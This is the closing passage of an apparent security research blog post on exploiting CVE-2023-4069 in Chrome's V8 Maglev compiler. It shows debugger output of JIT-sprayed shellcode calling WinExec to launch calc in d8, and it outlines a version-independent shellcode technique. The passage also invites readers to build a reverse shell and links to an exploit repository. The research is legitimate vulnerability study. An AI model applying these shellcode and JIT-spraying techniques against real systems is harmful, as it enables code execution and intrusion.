00007ff6`e004dacc ffd0 call rax {KERNEL32!WinExec (00007ff8`8e0a86c0)}
0:000> t
Breakpoint 0 hit
KERNEL32!WinExec:
00007ff8`8e0a86c0 488bc4 mov rax,rsp
0:000> db rcx L8
00000012`fb9fea50 63 61 6c 63 00 00 00 00 calc....
0:000> r rdx
rdx=0000000000000001
Calling WinExec
The memory address contained in RCX corresponds to the string pointer stored previously, while RDX holds the expected value of 1. Proceeding with the execution, a sleek calculator window appears, indicating that we successfully executed the shellcode.
 Launching Calculator
It’s also important to note that even though we used our JIT spraying method, the process terminated without problems. However, this might not always happen, as it depends on how the V8 heap memory is set up and if its data is intact.
We managed to execute arbitrary code on the system because the d8 process is meant to run with the same processes and privileges of the shell it is executed from. This is by design, as d8 is a debugging environment. Running the same exploit on the affected Chrome version would result in failure, as the Chrome sandbox would block such an API call.
In real world scenario, exploits like the one we discussed in this blog post require an additional sandbox-escape exploit that needs to be chained to the first one.
Addendum: Version Independent Shellcode
As I wasn’t fully satisfied with having a shellcode that was version-specific, I decided to go the extra mile and rewrite the WinExec shellcode to make it version-independent for demonstration purposes.
This shellcoding technique is fairly well-known and revolves around dynamically resolving function addresses. Here’s a short overview:
-
Locating Kernel32.dll: The shellcode first finds the base address of kernel32.dll, which contains many essential Windows functions, including WinExec. This is done by referencing the Process Environment Block (PEB), as we did before.
-
Export Directory Table: To find function addresses, the shellcode uses the Export Directory Table of kernel32.dll. This table includes:
- Number of exported symbols
- RVA (Relative Virtual Address) of function addresses array
- RVA of function names array
- RVA of function ordinals array
-
Resolving Functions:
- Search the function name in the export-names array.
- Find the corresponding ordinal in the export-ordinals array.
- Use the ordinal to get the function’s RVA from the export-functions array.
- Convert the RVA to a full address by adding the base address of kernel32.dll.
-
Hashing Function Names: The technique uses a hashing function to convert function names into 4-byte hashes, making the shellcode more efficient and smaller.
-
Loading Additional Modules (optional): After resolving
LoadLibraryA, the shellcode can load other modules and resolve more functions, enabling it to execute a wide range of tasks.
As this shellcode approach was fairly trivial, its implementation wasn’t that much. It appears that JIT’ed function code is not compiled equally, and some extra instructions have been introduced after about one third of the shellcode size. This uneven distance between floating-point encoded shellcode pieces required two different jumps: jmp 0xe for the shorter gap and jmp 0x11 for the larger one.
The rest of the shellcode is pretty much an adaptation of the original method, apart from control flow and branching. Since the shellcode is spread out in memory in different blocks, I had to manually rewrite all the conditional jumps and call instructions that were otherwise fine in a plain and linear shellcode.
As we now have a way to dynamically resolve functions, the reader is challenged to implement a full reverse shell that can be spawned from the d8 process.
The code for the exploit and version-specific and universal shellcodes can be found in this repository.
Conclusions
We’ve covered a lot of ground in this blog post, exploring various topics like the Chromium Security Architecture and the V8 Pipeline, with a focus on the Maglev Compiler. We also talked about the root cause analysis of CVE-2023-4069 and how to exploit it with JIT-spraying shellcode.
Thank you for sticking with it! I hope you found some of the insights helpful. If you spot any errors or have additional information, please don’t hesitate to reach out. Your feedback is always welcome!
External References
- Chromium Security Architecture
- V8 Official Documentation
- Wikipedia - Abstract Syntax Tree
- Wikipedia - JIT Compilation
- Chromium Blog - New Crankshaft for V8
- V8 Official Documentation - TurboFan
- V8 Official Documentation - Ignition
- Benedikt Meurer - Introduction to TurboFan
- V8 Official Documentation - Hidden Classes
- V8 Official Documentation - Maglev
- V8 GitHub Repository
- GitHub Security Lab Blog
- Google Docs - V8 Sandbox Design
- Faraz Haider - V8 Internals: JIT Spraying
- V8 Official Documentation - WASM
- Microsoft Tech Community - Understanding Hardware-enforced Stack Protection
- Microsoft Documentation - PEB Structure
- Microsoft Documentation - WinExec
- Jack Halon - V8 Exploitation Series
- Jeremy Fativeau - V8 Series